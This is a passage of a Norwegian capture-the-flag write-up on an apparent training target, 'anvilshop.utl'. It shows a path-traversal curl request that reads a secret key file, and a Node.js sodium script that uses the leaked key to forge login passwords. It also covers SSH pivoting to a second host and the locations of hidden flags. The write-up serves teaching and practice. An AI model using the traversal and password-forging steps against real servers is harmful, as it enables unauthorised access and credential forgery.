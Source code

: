 Det brukes et sodium bibliotek for krypteringen, som vi også har tilgang til i blant annet javascript. Vi ser også at det trengs en key som den henter fra */tmp/keyfile*, denne keyen kan vi hente ut med path-traversalen fra flagg 5. `curl "anvilshop.utl/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/tmp/keyfile"`. Vi kan da lage et script som lager passordet for oss (innholdet fra keyfile er skrevet direkte inn i sciptet):

```javascript
var sodium = require('sodium-native')
const readline = require('readline').createInterface({
  input: process.stdin,
  output: process.stdout
});
readline.question('Time: ', time => {
  var nonce = Buffer.alloc(sodium.crypto_secretbox_NONCEBYTES)
  var message = Buffer.from(`username=user:timestamp=${time}`)
  var ciphertext = Buffer.alloc(message.length + 0x10)
  var key = Buffer.from("6047ed1d2246dd7223946e61a3b3ade031e7bfd44e3fb02cd9ea492484f711bb", "hex")

  sodium.crypto_secretbox_easy(ciphertext, message, nonce, key)
  console.log('Password:', ciphertext.toString('hex'))
  readline.close();
});
```


# 2.10_workstation
Inne på user-maskinen, i home-directoriet til user, ligger det et *.ssh* directory som er verdt å se i. Inni denne mappa ligger nemlig følgende filer:
- authorized_keys
- config

Førstnevte er tom, men *config* inneholder informasjonen:
```
Host workstation
    Hostname workstation.anvilshop.utl
    User user
```
Det finnes altså en maskin til som user har aksess til. Vi prøver å logge oss inn på denne maskinen `ssh user@workstation.anvilshop.utl`, og blir møtt med samme pam-innlogging som da vi fant flagg 9.

Når vi er loggget inn på maskinen finner vi flagget i filen *FLAG* i home-directoriet til user.


# Skjulte Flagg

## 4.1_corax_dev_shm
Dette skjulte flagget lå i `/dev/shm/` mappa i ei fil med navnet `.secret`.

## 4.2_blog_hidden_message
Dette flagget lå i ett av blogginnleggene inne på bloggen. Ett innlegge hadde kapitalisering av bokstaver midt i setninger, og stavet ordet `ETTERRETNING`
